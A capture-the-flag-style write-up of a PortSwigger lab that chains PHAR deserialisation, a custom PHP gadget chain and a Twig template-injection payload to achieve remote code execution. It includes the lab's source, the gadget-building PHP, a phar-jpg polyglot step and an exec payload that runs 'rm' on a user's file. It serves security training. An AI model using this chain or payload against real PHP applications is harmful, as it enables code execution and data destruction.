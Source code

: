 # Using PHAR deserialisation to deploy a custom gadget chain

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-phar-deserialization-to-deploy-a-custom-gadget-chain) does not explicitly use deserialisation. However, if you combine PHAR deserialisation with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain. 

## Reproduction and proof of concept

1. The website has a feature for uploading your own avatar, which only accepts JPG images. Upload a valid JPG as your avatar. It is loaded using `GET /cgi-bin/avatar.php?avatar=wiener`.

![Serialisation](../../_static/images/ser12.png)

2. In Burp Repeater, request `GET /cgi-bin` to find an index that shows a `Blog.php` and `CustomTemplate.php` file. Obtain the source code by requesting the files using the `.php~` backup extension.

`Blog.php`:

```text
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```

`CustomTemplate.php`:

```text
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```

3. Study the source code and identify the gadget chain involving the `Blog->desc` and `CustomTemplate->lockFilePath` attributes.
4. The `file_exists()` filesystem method is called on the `lockFilePath` attribute.
5. Notice that the website uses the Twig template engine. You can use deserialisation to pass in an server-side template injection (SSTI) payload. Find a documented SSTI payload for remote code execution on [Twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig), and adapt it to delete Carlos's file:

```text
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

6. Write some PHP for creating a `CustomTemplate` and `Blog` containing the SSTI payload:

```text
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$object->template_file_path = $blog;
```

7. Create a [phar-jpg polyglot](https://github.com/kunte0/phar-jpg-polyglot) containing the PHP script. 
8. Upload this file as your avatar.
9. In Burp Repeater, modify the request line to deserialise your malicious avatar using a `phar:// stream` as follows:

```text
GET /cgi-bin/avatar.php?avatar=phar://wiener
```
    
10. Send the request to solve the lab.

![Serialisation](../../_static/images/ser13.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and delete the `morale.txt` file from Carlos's home directory. 
